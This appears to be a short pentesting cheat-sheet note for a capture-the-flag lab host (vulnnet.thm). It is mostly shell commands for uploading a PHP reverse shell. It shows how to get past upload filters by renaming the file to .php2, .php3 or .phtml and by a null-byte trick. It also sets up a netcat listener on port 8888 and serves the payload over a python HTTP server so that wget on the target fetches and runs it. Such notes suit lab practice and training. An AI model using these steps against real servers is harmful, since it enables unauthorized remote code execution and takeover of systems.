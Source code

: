 PHP Upload file
```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
ip a
vim php-reverse-shell.php
mv php-reverse-shell.php rev.php
```
change IP and Port:8888

If upload file not allowed:
```bash
mv php-reverse-shell.php rev.php2
```
Try to open the file:
http://admin1.vulnnet.thm/fileadmin/user_upload/rev.php2
or right click open in new tab!
! if open as text instead of run it try:
```bash
mv rev.php2 rev.php3
mv rev.php2 rev.phtml
```
If still not allowed try to rename the file from the host!
Still not work?
Try '0 byte' attack
```bash
mv rev.php rev.php%00.jpg
```
[[netcat]]
```bash
nc -nlvp 8888
```

**Upload file to victim machine**
*Local machine*
```bash
python3 -m http.server 80
```
*Target machine*
```bash
wget 10.10.24.221/rev.php
chmod +x rev.php
```
*Local machine*
```
nc -nlvp 8888
```
*Target machine*
```bash
php rev.php
```
*Local machine*
[[Shell]]
